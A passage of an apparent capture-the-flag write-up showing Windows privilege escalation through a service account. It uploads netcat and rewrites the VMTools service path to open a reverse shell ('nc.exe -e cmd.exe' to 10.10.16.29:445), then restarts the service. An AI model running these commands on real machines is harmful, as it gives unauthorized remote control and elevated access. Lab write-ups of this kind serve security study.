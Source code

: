 ```bash
```
{: .nolineno}

So I have privilege to modify the configuration of a running service like this →

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> services
```
{: .nolineno}

![Untitled](Return%208a2a540018e44b90a64180518e2cb2d1/Untitled%205.png)

Lets modify the config path of this service VMTools like this :

```bash
upload /usr/share/windows-binaries/nc.exe
sc.exe config VMTools binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.16.29 445"
sc.exe stop VMTools
sc.exe start VMTools
```
{: .nolineno}

![Untitled](Return%208a2a540018e44b90a64180518e2cb2d1/Untitled%206.png)

